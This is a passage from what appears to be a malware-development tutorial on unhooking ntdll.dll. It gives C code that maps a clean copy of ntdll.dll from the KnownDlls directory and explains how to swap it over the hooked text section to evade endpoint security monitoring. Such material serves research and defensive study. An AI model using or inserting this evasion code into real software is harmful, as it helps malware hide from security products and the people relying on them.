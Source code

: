 ```c
	UNICODE_STRING      	UniStr          = { 0 };
	OBJECT_ATTRIBUTES  	ObjAtr          = { 0 };

	// constructing the 'UNICODE_STRING' that will contain the '\KnownDlls\ntdll.dll' string
	UniStr.Buffer = (PWSTR)NTDLL;
	UniStr.Length = wcslen(NTDLL) * sizeof(WCHAR);
	UniStr.MaximumLength = UniStr.Length + sizeof(WCHAR);

	// initializing 'ObjAtr' with 'UniStr'
	InitializeObjectAttributes(&ObjAtr, &UniStr, OBJ_CASE_INSENSITIVE, NULL, NULL);

	// getting NtOpenSection address
	fnNtOpenSection pNtOpenSection = (fnNtOpenSection)GetProcAddress(GetModuleHandle(L"NTDLL"), "NtOpenSection");
	
	// getting the handle of ntdll.dll from KnownDlls
	STATUS = pNtOpenSection(&hSection, SECTION_MAP_READ, &ObjAtr);
	if (STATUS != 0x00) {
		printf("[!] NtOpenSection Failed With Error : 0x%0.8X \n", STATUS);
		goto _EndOfFunc;
	}

	// mapping the view of file of ntdll.dll
	pNtdllBuffer = MapViewOfFile(hSection, FILE_MAP_READ, NULL, NULL, NULL);
	if (pNtdllBuffer == NULL) {
		printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	*ppNtdllBuf = pNtdllBuffer;

_EndOfFunc:
	if (hSection)
		CloseHandle(hSection);
	if (*ppNtdllBuf == NULL)
		return FALSE;
	else
		return TRUE;
}
```

### Putting It All Together

Now that an unhooked version of `ntdll.dll` has been loaded into the process's memory, the `ReplaceNtdllTxtSection` function shown in the previous module will be used to replace the text section of the hooked `ntdll.dll` with the newly unhooked one. The only difference is that the `pUnhookedNtdll` parameter now contains the base address of the NTDLL module fetched from the KnownDlls directory, rather than from disk.

Note that the text section of the KnownDlls `ntdll.dll` has an offset of `IMAGE_SECTION_HEADER.VirtualAddress` (4096), which explains the usage of `pSectionHeader[i].VirtualAddress` to retrieve the address of the text section (`pRemoteNtdllTxt`) in the code below.
